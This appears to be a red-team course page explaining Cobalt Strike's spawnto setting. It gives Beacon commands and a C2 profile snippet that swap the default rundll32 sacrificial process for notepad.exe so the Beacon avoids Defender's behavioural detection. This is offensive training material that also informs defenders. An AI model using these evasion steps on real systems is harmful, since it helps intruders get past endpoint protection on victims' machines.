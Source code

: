 Cobalt Strike's `spawnto` value controls which binary is used as a temporary process for various post-exploitation workflows.  Execute this PowerShell one-liner using `powerpick` and keep an eye on Process Hacker.

```
beacon> powerpick Start-Sleep -s 30
``` 

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/spawnto/rundll32.png)

  

We'll see that rundll32 is spawned as a child of the current Beacon process (in this case, PowerShell).  This is Cobalt Strike's default spawnto and is highly monitored as arbitrary processes spawning rundll32 is not a normal occurrence.  In fact, you will probably find that Defender kills your Beacon (note the PID correlation).  This is a behavioural detection and is not circumvented using AMSI bypasses in Beacon.
  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/spawnto/rundll32-blocked.png)

  

You can change the spawnto binary for an individual Beacon during runtime with the `spawnto` command.  There is a separate configuration for x86 and x64.

```
beacon> help spawnto
Use: spawnto [x86|x64] [c:\path\to\whatever.exe]
```

Sets the executable Beacon spawns x86 and x64 shellcode into. You must specify a
full-path. Environment variables are OK (e.g., `%windir%\sysnative\rundll32.exe`)

Do not reference `%windir%\system32\ directly`. This path is different depending
on whether or not Beacon is x86 or x64. Use `%windir%\sysnative`\ and 
`%windir%\syswow64\` instead.

Beacon will map `%windir%\syswow64\` to system32 when WOW64 is not present.

  

Obviously, the idea is to pick something that would not be out of place for the current Beacon context.  For demonstration purposes, let's spawn a new Beacon and change it to Notepad.

```
beacon> spawnto x64 %windir%\sysnative\notepad.exe
beacon> powerpick Start-Sleep -s 30
```


![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/spawnto/notepad.png)

  

This time, the Beacon survives.  There is nothing special happening here - Beacon uses the CreateProcess API to start whatever spawnto it's configured with.  If you want to set the default spawnto in your C2 profile, you can do so in the post-ex block.

post-ex {
    set spawnto_x86 "%windir%\\syswow64\\notepad.exe";
    set spawnto_x64 "%windir%\\sysnative\\notepad.exe";
}